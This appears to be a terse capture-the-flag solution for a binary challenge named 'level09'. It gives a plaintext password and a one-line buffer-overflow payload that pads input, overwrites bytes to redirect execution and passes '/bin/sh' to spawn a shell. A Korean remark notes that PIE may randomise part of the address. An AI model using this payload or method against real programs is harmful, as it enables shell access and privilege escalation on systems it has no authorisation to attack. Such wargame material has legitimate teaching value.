 > Password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

cat <(python -c 'import sys; sys.stdout.write("A" * 40 + "\xca" + "A" * 86 + "A" * 0xc8 + "\x8c\x48" + "A" * 821 + "/bin/sh\x00" + "A" * 119)') - | ./level09

NOTE: pie가 활성화되어있기 때문에 payload 중간의 \x48 에서 4 부분은 랜덤으로 바뀔 수도 있음.